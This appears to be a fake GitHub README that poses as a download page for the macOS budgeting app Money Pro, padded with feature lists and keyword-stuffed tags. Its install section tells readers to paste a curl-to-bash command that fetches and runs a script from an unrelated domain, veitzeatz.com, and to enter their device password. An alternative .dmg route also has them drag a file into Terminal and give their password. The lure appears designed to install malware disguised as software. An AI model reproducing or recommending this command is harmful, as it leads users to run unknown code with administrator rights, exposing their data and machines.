 # 💸 Money Pro — Personal Finance & Budgeting App for macOS

Money Pro is the ultimate finance and budget planner app for macOS. Whether you're managing personal expenses or small business finances, Money Pro gives you everything you need — from budgets and bills to powerful analytics and beautiful UI.

[![🚀 Download Money Pro 🟣](https://img.shields.io/badge/Download-Money%20Pro-blueviolet)](https://money-pro-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 📦 What is Money Pro?

Money Pro is an advanced money management tool for macOS. It allows you to plan budgets, track expenses, monitor bills, and analyze your financial behavior across all your Apple devices.

Whether you're a freelancer, a household budgeter, or a small business owner, Money Pro helps you stay on top of your finances with ease and elegance.

---

## ✨ Features

- 💰 Expense & income tracking with custom categories  
- 🧾 Bill planning with calendar view  
- 📊 Budget planner with progress indicators  
- 🔄 Recurring transactions & automation  
- 🌐 Sync across devices via iCloud  
- 🔒 Secure with Face ID and Touch ID support  
- 📈 Detailed reports and graphs  
- 🛠️ Attach receipts and notes to transactions  

---

## 🖼️ Preview

![Money Pro Screenshot 1](https://money.pro/img/preambule_money_pro.jpg)  
![Money Pro Screenshot 2](https://money.pro/img/moneypro_windows_budget.jpg)

---

## 📌 Tags

money pro, moneyguidepro, emoney pro, money guy pro,  
moneyguide pro cost, pro money, money pro app, money pro mac, money pro,  
monefy pro, money manager premium, money pro for mac, my money pro,  
moneyguidepro pricing, money guard pro, emoney pro pricing, envestnet moneyguidepro,  
money pro software, money pro online, money for macbook pro, money pro personal finance,  
1money pro, active money pro, app money pro, get money pro, i money pro,  
i money pro loan app, ibear llc, ibear money pro, imoney pro, income cash pro
